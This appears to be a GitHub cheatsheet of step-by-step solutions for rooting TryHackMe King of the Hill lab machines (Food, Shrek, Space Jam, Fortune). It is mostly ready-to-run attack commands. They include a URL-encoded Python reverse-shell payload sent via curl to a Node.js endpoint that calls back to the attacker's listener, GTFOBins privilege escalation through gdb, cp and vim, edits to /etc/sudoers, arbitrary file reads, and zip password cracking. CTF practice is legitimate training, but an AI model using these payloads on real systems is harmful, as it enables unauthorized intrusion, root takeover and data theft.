 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
[Mr.Holmes](https://github.com/holmes-py) <br />
[Cryptonic007](https://github.com/mohitkhemchandani)
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.*

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 
    `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, <br /> 
And made it hard for me to post direct commands, Why?<br /> 
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.<br /> 
Let's Hack:<br /> 


1. Initial nmap scans revealed that theres a netcat port open at 3333. <br /> 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)
##### UPDATE, you can skip next 2 steps and directly use the command in Shortcut Note.
2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).<br /> 
    Copy the base64 hash to this site, and it will generate a file named application.zip.<br /> 
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.<br /> 
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`<br /> 
   Once you have the password, unzip it.<br /> 
   `unzip application.zip`<br /> 
  ##### Shortcut Note:  MAKE SURE TO DO THE FOLLOWING EDITS: 
  $IP = IP of KoTH box  <br />
  $location = address of your rockyou wordlist <br />
  `nc $IP 3333  | base64 -d  > test.zip; unzip -P  (fcrackzip -v -u -D -p $location/rockyou.txt test.zip | grep "pw" |awk '{print $5}') test.zip; cat creds.txt`
  
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.<br /> 
4. Using the creds, <br /> 
    `ssh fortuna@<BOX IP>`<br /> 
5. Now that we have the shell, We can work on Privilage escalation.<br /> 
    After linpeas and basic test, I found that:<br /> 
        5.1 We as fortuna are in sudoers list.<br /> 
        5.2 And we also have `pico` in the `sudo -l` list.<br /> 
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 

#### You are ROOT, now defend your title.
   
   

